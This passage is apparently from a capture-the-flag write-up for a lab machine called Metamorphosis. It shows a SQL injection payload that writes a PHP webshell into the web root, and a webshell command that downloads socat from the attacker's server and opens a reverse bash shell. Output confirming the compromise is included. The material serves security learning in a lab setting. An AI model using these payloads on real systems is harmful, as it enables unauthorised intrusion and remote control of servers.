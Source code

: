 **Convert it to hex:**
```shell
┌──(root🌸siunam)-[~/ctf/thm/ctf/Metamorphosis]
└─# python3
[...]
>>> import binascii
>>> 
>>> payload = b'''<?php system($_GET["cmd"]); ?>'''
>>> binascii.hexlify(payload)
b'3c3f7068702073797374656d28245f4745545b22636d64225d293b203f3e'
```

```shell
┌──(root🌸siunam)-[~/ctf/thm/ctf/Metamorphosis]
└─# python3 user_query.py                                      
[*] Payload: " UNION ALL SELECT NULL,NULL,0x3c3f7068702073797374656d28245f4745545b22636d64225d293b203f3e INTO OUTFILE "/var/www/html/webshell.php"-- -
[*] Payload result:
```

**Try to reach our uploaded PHP webshell file:**
```shell
┌──(root🌸siunam)-[~/ctf/thm/ctf/Metamorphosis]
└─# curl http://metamorphosis.thm/webshell.php --get --data-urlencode "cmd=id"
\N	\N	uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

**Yes! We successfully write a PHP webshell to `/webshell.php`!**

Let's get a reverse shell!

- Setup a listener:

```shell
┌──(root🌸siunam)-[~/ctf/thm/ctf/Metamorphosis]
└─# socat -d -d file:`tty`,raw,echo=0 TCP-LISTEN:443    
2023/01/11 03:39:13 socat[126873] N opening character device "/dev/pts/1" for reading and writing
2023/01/11 03:39:13 socat[126873] N listening on AF=2 0.0.0.0:443
```

- Send the payload: (Generated from [revshells.com](https://www.revshells.com/))

```shell
┌──(root🌸siunam)-[/opt/static-binaries/binaries/linux/x86_64]
└─# python3 -m http.server 80       
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

```shell
┌──(root🌸siunam)-[~/ctf/thm/ctf/Metamorphosis]
└─# curl http://metamorphosis.thm/webshell.php --get --data-urlencode "cmd=wget http://10.9.0.253/socat -O /tmp/socat;chmod +x /tmp/socat;/tmp/socat TCP:10.9.0.253:443 EXEC:'/bin/bash',pty,stderr,setsid,sigint,sane"
```

```shell
┌──(root🌸siunam)-[~/ctf/thm/ctf/Metamorphosis]
└─# socat -d -d file:`tty`,raw,echo=0 TCP-LISTEN:443    
2023/01/11 03:39:13 socat[126873] N opening character device "/dev/pts/1" for reading and writing
2023/01/11 03:39:13 socat[126873] N listening on AF=2 0.0.0.0:443
                                                                 2023/01/11 03:39:59 socat[126873] N accepting connection from AF=2 10.10.14.138:34860 on AF=2 10.9.0.253:443
                                                                  2023/01/11 03:39:59 socat[126873] N starting data transfer loop with FDs [5,5] and [7,7]
                                               www-data@incognito:/var/www/html$ 
www-data@incognito:/var/www/html$ export TERM=xterm-256color
www-data@incognito:/var/www/html$ stty rows 22 columns 107
www-data@incognito:/var/www/html$ whoami;hostname;id;ip a
www-data
incognito
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```